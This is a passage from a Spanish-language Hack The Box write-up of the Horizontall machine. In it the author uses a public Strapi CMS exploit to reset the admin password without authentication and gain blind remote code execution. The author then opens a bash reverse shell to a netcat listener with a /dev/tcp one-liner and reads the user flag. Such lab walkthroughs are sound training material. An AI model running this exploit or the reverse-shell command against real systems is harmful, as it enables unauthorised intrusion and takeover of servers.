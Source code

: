 ```bash
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```
Como no tenemos credenciales todavía optaremos por el script `50239.py` que nos brinda un RCE sin la necesidad de estar autenticados. Nos lo traemos a nuestro directorio de trabajo `exploits` lo renombramos y ejecutamos pasándole como parámetro la url

```bash
❯ python3 strapi_exploit.py http://api-prod.horizontall.htb/
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjY5Mjg0MTIxLCJleHAiOjE2NzE4NzYxMjF9.jfVg4L3kjN81-CJu2MScnUJCHFUp26Kpy_GlYDkiddI


$> 
```

Hemos conseguido una pseudo-consola en la que poder ejecutar comandos de forma remota. Nos ponemos en escucha en el puerto 443 en nuestro equipo y procedemos a ejecutar el oneliner típico para entablar una reverse shell en bash

```bash
# ATACANTE
❯ sudo nc -nlvp 443
[sudo] password for yorch: 
listening on [any] 443 ...
connect to [10.10.11.105] from (UNKNOWN) [10.10.11.105] 45076
bash: cannot set terminal process group (1965): Inappropriate ioctl for device
bash: no job control in this shell
strapi@horizontall:~/myapi$ whoami
whoami
strapi
```

```bash
# VICTIMA
$> bash -c 'bash -i >& /dev/tcp/10.10.14.73/443 0>&1'
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
```

La flag de usuario se encuentra en `/home/developer/user.txt`

```bash
strapi@horizontall:~/myapi$ cat /home/developer/user.txt 
abab48f102ce8a57***************
```
